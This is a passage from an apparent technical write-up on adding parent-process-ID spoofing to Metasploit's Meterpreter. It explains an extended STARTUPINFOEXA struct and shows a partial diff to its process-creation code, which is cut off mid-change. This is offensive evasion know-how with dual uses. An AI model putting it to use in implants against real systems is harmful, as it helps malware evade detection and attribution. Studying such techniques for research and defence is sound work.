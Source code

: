 We will manually extend the original `STARTUPINFOA` struct by declaring a `STARTUPINFOEXA` struct that includes the original one as its first member: with this _escamotage_, the original offsets to existing properties will be preserved and existing code will continue to work correctly. We can communicate to the operating system when extended startup information is available by specifing the `EXTENDED_STARTUPINFO_PRESENT` flag when creating the new process.

The final changes are the following:

```diff
diff --git a/c/meterpreter/source/extensions/stdapi/server/sys/process/process.c b/c/meterpreter/source/extensions/stdapi/server/sys/process/process.c
index 595f8ffe..9161dfd6 100644
--- a/c/meterpreter/source/extensions/stdapi/server/sys/process/process.c
+++ b/c/meterpreter/source/extensions/stdapi/server/sys/process/process.c
@@ -8,6 +8,30 @@
 typedef BOOL (STDMETHODCALLTYPE FAR * LPFNCREATEENVIRONMENTBLOCK)( LPVOID  *lpEnvironment, HANDLE  hToken, BOOL bInherit );
 typedef BOOL (STDMETHODCALLTYPE FAR * LPFNDESTROYENVIRONMENTBLOCK) ( LPVOID lpEnvironment );
 typedef BOOL (WINAPI * LPCREATEPROCESSWITHTOKENW)( HANDLE, DWORD, LPCWSTR, LPWSTR, DWORD, LPVOID, LPCWSTR, LPSTARTUPINFOW, LPPROCESS_INFORMATION );
+typedef BOOL (WINAPI * UPDATEPROCTHREADATTRIBUTE) (
+	LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
+	DWORD                        dwFlags,
+	DWORD_PTR                    Attribute,
+	PVOID                        lpValue,
+	SIZE_T                       cbSize,
+	PVOID                        lpPreviousValue,
+	PSIZE_T                      lpReturnSize
+);
+
+typedef BOOL (WINAPI* INITIALIZEPROCTHREADATTRIBUTELIST) (
+	LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
+	DWORD                        dwAttributeCount,
+	DWORD                        dwFlags,
+	PSIZE_T                      lpSize
+);
+
+typedef struct _STARTUPINFOEXA
+{
+	STARTUPINFOA StartupInfo;
+	LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
+} STARTUPINFOEXA, *LPSTARTUPINFOEXA;
+
+const int PROC_THREAD_ATTRIBUTE_PARENT_PROCESS = 0x00020000;
 
 /*
  * Attaches to the supplied process identifier.  If no process identifier is
@@ -91,10 +116,10 @@ DWORD request_sys_process_execute(Remote *remote, Packet *packet)
 	Tlv inMemoryData;
 	BOOL doInMemory = FALSE;
 	PROCESS_INFORMATION pi;
-	STARTUPINFO si;
+	STARTUPINFOEXA si;
 	HANDLE in[2], out[2];
 	PCHAR path, arguments, commandLine = NULL;
-	DWORD flags = 0, createFlags = 0;
+	DWORD flags = 0, createFlags = 0, ppid = 0;
 	BOOL inherit = FALSE;
 	HANDLE token, pToken;
 	char * cpDesktop = NULL;
@@ -109,9 +134,10 @@ DWORD request_sys_process_execute(Remote *remote, Packet *packet)
 
 	// Initialize the startup information
 	memset( &pi, 0, sizeof(PROCESS_INFORMATION) );
-	memset( &si, 0, sizeof(STARTUPINFO) );
```